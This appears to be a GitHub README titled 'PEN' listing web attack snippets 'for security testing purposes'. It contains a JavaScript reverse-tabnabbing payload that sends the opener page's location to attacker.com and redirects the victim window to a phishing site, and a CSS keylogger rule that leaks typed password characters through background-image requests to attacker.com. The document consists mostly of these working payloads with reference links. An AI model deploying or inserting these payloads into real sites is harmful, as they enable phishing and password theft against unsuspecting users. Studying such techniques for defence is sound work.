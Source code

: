 # PEN
A curated list of script and attack for security testing purposes and knowledgement.  
  
## JavaScript:
  - #### `target="_blank"` vulnerability:
    ```javascript
    if (window.opener) {
      fetch("//attacker.com/log/start/phishing/?location=" + window.opener.location)
      .then(response => {
        // Wait for the deployment of the phishing site.
        setTimeout(() => {
          // Then redirect the opener browser window to the attacker site.
          window.opener.location = 
              `https://attacker.com/${response.json().uuid}/${window.opener.location}`
              
        }, 5000)
      })
      .catch(err => {
        // Error, maybe CSP :(
        
        let fakeImage = new Image();
        fakeImage.src = "//attacker.com/log/?location=" + window.opener.location
      });
    }
    ```  
    References:
    - https://dev.to/ben/the-targetblank-vulnerability-by-example
  
## CSS:
  - #### CSS Keylogger: 
    ```css
    input[type="password"][value$="a"] {
      background-image: url("https://attacker.com/a");
    }
    ```  
    References:
    - https://github.com/maxchehab/CSS-Keylogging
    - https://hackaday.com/2018/02/25/css-steals-your-web-data/
